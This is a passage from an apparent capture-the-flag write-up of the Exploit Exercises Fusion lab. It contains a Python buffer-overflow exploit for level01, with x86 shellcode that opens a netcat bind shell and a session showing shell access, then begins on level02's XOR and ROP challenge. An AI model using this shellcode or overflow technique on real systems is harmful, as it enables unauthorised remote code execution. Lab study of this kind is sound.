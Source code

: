 {% highlight python %}
# File: level01_solution.py
from struct import pack

NOPSLED="\x90"*12
SHELLCODE="\x31\xc0\x50\x68\x6e\x2f\x6e\x63\x68\x2f\x2f\x62\x69\x89\xe3\x50\x68\x35\x35\x35"+\
    "\x35\x68\x2d\x6c\x74\x70\x89\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x68"+\
    "\x2d\x65\x2f\x2f\x89\xe2\x50\x52\x51\x53\x89\xe7\xb0\x0b\x89\xf9\x31\xd2\xcd\x80"
OVERFLOW="A"*139
ADDR=pack('L', 0xbfb22818+len(OVERFLOW)+20)
PAYLOAD="GET "+OVERFLOW+ADDR+" HTTP/1.1" + NOPSLED+SHELLCODE

print PAYLOAD
{% endhighlight %}

### Testing our solution.

~~~
$ python level01_solution.py | nc 127.0.0.1 20001
< on another terminal >
$ nc 127.0.0.1 5555
id
uid=20001	gid=20001	groups=20001
~~~

![Success]({{ site-url }}/assets/post_images/fusion_level01_success.jpg)

* * * 

## [level02](https://exploit-exercises.com/fusion/level02/)

>This level deals with some basic obfuscation / math stuff.
>
>This level introduces non-executable memory and return into libc /
>.text / return orientated programming (ROP).

The buffer we send will be encrypted, and it will be encrypted via a
single xor operation, with a key thats generated when connecting to
the serving application.

We can abuse the fact that the encryption is a single xor, if we send
a already encrypted buffer back to the application; the buffer will be
decrypted (since `message xor key = cipher`, and `cipher xor key =
message`.)

The keybuf and keyed variables are declared as static, meaning that
they are initialized once, they won't change in the middle of our 
connection.

First things first, let's break some stuff.

### Crashing the application

